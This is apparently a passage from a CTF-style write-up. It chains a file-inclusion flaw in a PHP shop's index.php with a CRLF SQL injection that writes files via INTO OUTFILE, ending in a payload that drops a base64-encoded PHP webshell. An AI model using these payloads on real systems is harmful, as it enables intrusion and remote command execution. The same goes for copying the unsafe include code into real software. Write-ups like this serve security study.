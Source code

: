 The data of `/var/www/html/shop/index.php` where we specify the `page` has no restriction against direct paths aswell, but only for `.php` files.

```php
<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default, so when the visitor visits, that will be the page they see.
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
include $page . '.php';
?>
```

Using the SQLi with a CRLF we can print data to an outfile, then read it with a direct path.

```
POST /shop/index.php?page=cart HTTP/1.1
...

quantity=1&product_id=%0a';select+@@version+into+outfile+'<directory>'; --1
```

Let's find a way to output a file, we can't write to:

```
/tmp/version.txt
/var/www/html/version.txt
/var/www/html/shop/version.txt
```

Could we write to a library? As the queries are typically run by the `mysqld` user. Let's try write to `/var/lib/mysql/`...

```
POST /shop/index.php?page=cart HTTP/1.1
...

quantity=1&product_id=%0a';select+@@version+into+outfile+'/var/lib/mysql/version.txt'; --1
```

Using our previous script, we get an output reading `/var/lib/mysql/version.txt` with the script!

`10.6.12-MariaDB-0ubuntu0.22.10.1`

Let's use some Base64 to make a PHP webshell, using a [tiny GET webshell](https://github.com/bayufedra/Tiny-PHP-Webshell#simple-http-requests-get-method-shell).

```
POST /shop/index.php?page=cart HTTP/1.1
...

quantity=1&product_id=%0a';select+from_base64('PD89YCRfR0VUWzBdYD8%2b')+into+outfile+'/var/lib/mysql/webshell.php'; --1
```
